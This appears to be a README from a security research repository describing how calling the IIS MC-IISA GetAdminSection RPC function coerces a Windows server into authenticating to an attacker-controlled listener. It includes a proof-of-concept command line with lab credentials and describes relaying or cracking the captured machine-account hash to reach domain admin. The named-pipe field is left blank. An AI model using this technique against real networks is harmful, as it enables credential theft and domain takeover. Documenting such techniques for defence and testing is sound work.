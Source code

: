 # MC-IISA - Remote call to GetAdminSection (opnum 3)

## Summary

+ **Protocol**: [[MC-IISA]: Internet Information Services (IIS) Application Host COM Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6)

+ **Protocol UUID**: 31a83ea0-c0e4-4a2c-8a01-353cc2a4c60a

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`GetAdminSection`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/b8ca90fd-7c8c-4e8f-9ecc-3ecf640db266)

+ **Function operation number**: `3`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MC-IISA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6) protocol (with uuid `31a83ea0-c0e4-4a2c-8a01-353cc2a4c60a` and version `0.0`) in order to perform remote procedure calls to functions in the [`MC-IISA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MC-IISA]: Internet Information Services (IIS) Application Host COM Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6) and allows to call RPC functions of this protocol. We will then call the remote [`GetAdminSection`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/b8ca90fd-7c8c-4e8f-9ecc-3ecf640db266) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
GetAdminSection('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT GetAdminSection(
   [in] BSTR bstrSectionName,
   [in] BSTR bstrPath,
   [out, retval] IAppHostElement** ppAdminSection
 );
```

## References

+ Documentation of protocol [MC-IISA]: Internet Information Services (IIS) Application Host COM Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/488de90f-9710-45fb-b71a-6938733fafb6

+ Documentation of function `GetAdminSection`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/mc-iisa/b8ca90fd-7c8c-4e8f-9ecc-3ecf640db266